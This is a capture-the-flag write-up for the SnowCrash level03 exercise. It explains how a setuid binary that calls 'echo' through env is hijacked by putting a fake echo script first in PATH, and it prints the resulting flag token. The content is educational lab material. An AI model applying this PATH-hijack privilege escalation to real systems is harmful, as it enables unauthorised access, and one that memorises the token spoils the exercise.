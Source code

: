 # Level03

## Hint

Run the following command:
```
strings level03
```
Good luck !

## Answer

Let's check our current directory:
```
level03@SnowCrash:~$ ll
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03*
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile*
```

Great ! We found an executable file, let's run it first !
```
level03@SnowCrash:~$ ./level03
Exploit me
```

We notice that it has the `s` permission, so it will be executed as flag03. Futhermore, when we run `strings level03` we see that the file contains the following string:
```
level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We know that this line is executed since it did print "Exploit me" when we ran it. Alright, let's see if we can modify the `echo` command to execute our getflag command:
```
level03@SnowCrash:~$ whereis echo
echo: /bin/echo /usr/share/man/man1/echo.1.gz
level03@SnowCrash:~$ echo getflag > /bin/echo
bash: /bin/echo: Permission denied
```

Nope we cannot, and it doesn't work with `env` either. In that case let's create a fake `echo` file in our `/tmp` directory and add it to the start of our path:
```
level03@SnowCrash:~$ echo getflag > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ PATH=/tmp:$PATH
```

Alright let's run the executable again:
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
